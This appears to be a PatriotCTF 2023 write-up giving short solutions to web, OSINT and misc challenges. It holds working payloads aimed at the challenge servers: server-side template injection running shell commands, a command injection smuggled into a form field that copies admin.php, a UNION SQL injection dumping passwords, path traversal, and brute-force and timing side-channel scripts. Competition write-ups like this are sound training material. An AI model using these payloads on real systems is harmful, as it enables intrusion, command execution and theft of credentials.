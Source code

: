 # PatriotCTF 2023

# Web

## Pick Your Starter

```jsx
// filter ' " [ bullutin
http://chal.pctf.competitivecyber.club:5555/{{cycler.__init__.__globals__.os.popen(request.args.l).read()}}?a=-config&l=ls%20/
```

## Checkmate

Use the script below to generate a list of legitimated passwords before bruting force them and finally getting FLAG. 

```jsx

// charsets
const chars = "abcdefghijklmnopqrstuvwxyz";

// 
function isValidPasswordCombo(arr) {
    var add = arr[0].charCodeAt(0) & arr[2].charCodeAt(0);
    var or = arr[1].charCodeAt(0) | arr[4].charCodeAt(0);
    var xor = arr[3].charCodeAt(0) ^ arr[5].charCodeAt(0);
    return (add === 0x60) && (or === 0x61) && (xor === 0x6);
}

// Check whether the sum of passwords is 0xbb
function isSumValid(pwd) {
    let sum = 0;
    for (let i = 0; i < pwd.length; i += 6) {
        const segment = pwd.slice(i, i + 6);
        var add = segment[0].charCodeAt(0) & segment[2].charCodeAt(0);
        var or = segment[1].charCodeAt(0) | segment[4].charCodeAt(0);
        var xor = segment[3].charCodeAt(0) ^ segment[5].charCodeAt(0);
        sum += add + or - xor;
    }
    return sum === 0xbb;
}

// dig out passwords 
for (let i = 0; i < chars.length; i++) {
    for (let j = 0; j < chars.length; j++) {
        for (let k = 0; k < chars.length; k++) {
            for (let l = 0; l < chars.length; l++) {
                for (let m = 0; m < chars.length; m++) {
                    for (let n = 0; n < chars.length; n++) {
                        const arr = [chars[i], chars[j], chars[k], chars[l], chars[m], chars[n]];
                        if (isValidPasswordCombo(arr)) {
                            const pwd = arr.join('');
                            if (isSumValid(pwd)) {
                                console.log(pwd);
                                  
                            }
                        }
                    }
                }
            }
        }
    }
```

```jsx
POST http://chal.pctf.competitivecyber.club:9096/check.php

password=sadsau
```

## Flower shop

```jsx
# Step 1
POST /modules/signup.inc.php HTTP/1.1

uid=2h0ng71&pwd=admin&wh=<@urlencode_all>https://webhook.site/60e2905c-53fd-4229-b367-9cd730ed628a;bash${IFS}-c${IFS}"cat<../admin.php>/var/www/html/123aaaazzzz.txt";<@/urlencode_all>&submit=

# Step 2
POST /modules/reset.inc.php HTTP/1.1

uid=2h0ng71&token=1c7fbe4fd0281e0f32d78c8507a6a84b&submit=
```

## One-for-All

```jsx
Flag 1:
GET / HTTP/1.1
Host: chal.pctf.competitivecyber.club:9090
Cookie: name=admin

Flag 2:
/user?id=0

Flag 3:
POST /

username= 1" union select 1,2,3,    (SELECT GROUP_CONCAT(password) from accounts);--

Flag 4:
GET /secretsforyou/..;/ HTTP/1.1

```

# OSINT

## ****Rouge Access Point****

[https://www.osintcurio.us/2019/01/15/tracking-all-the-wifi-things/](https://www.osintcurio.us/2019/01/15/tracking-all-the-wifi-things/)

[https://wigle.net/](https://wigle.net/)

[https://wigle.net/search#detailSearch](https://wigle.net/search#detailSearch)

## Karter

First step → Leveraging Google dork to get the name of the director and its PIN:

```jsx
allintext: "flipkart" "2021" "director" & before:2022-01-01 after:2020-12-01
```

Second step → find DIN at:

```jsx
https://www.tofler.in/flipkart-internet-private-limited/company/U51109KA2012PTC066107/directors
https://www.tofler.in/jonathan-marshall-collins/director/09075331
```

Third step → Ask chatgpt how to get director information from official website in India:

```jsx

Enquiry: I want to obtain information about the Director Identification Number from the government website in India. Where can I find it?

Answer: https://www.mca.gov.in/mcafoportal/enquireDIN.do
```

# Misc

## ****Flag Finder****

```jsx
from pwn import *
import time

context.log_level = 'error'

def guess_password():
    charset = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIGKLMNOPQRSTUVWXYZ'
    base_password = ['0'] * 13
    print(f"[+] Base password: {''.join(base_password)}")

    count = 5
    for i in range(0, 13):
        print(f'[+] Guessing character: {i}')

        best_char = '0'
        for char in charset:
            base_password[i] = char
            password_guess = 'pctf{' + ''.join(base_password) + '}'
            
            print(f"[+] Trying password: {password_guess}")

            correct_len = test(password_guess)
            if correct_len > count:
                count += 1
                print(f"[+] Found character: {base_password}")
                break
            
    return ''.join(base_password)

def test(password):
    sh = remote('chal.pctf.competitivecyber.club', 4757)
    sh.recvuntil('What is the password: ')
    start_time = time.time()
    sh.sendline(password)
    res =  sh.recvuntil(b'There\'s been an error')

    correct_len = (len(res.split(b'\n'))-1)/2
    print(correct_len)

    duration = time.time() - start_time

    sh.close()

    return correct_len

password = guess_password()
print(f"Final password: {password}")
```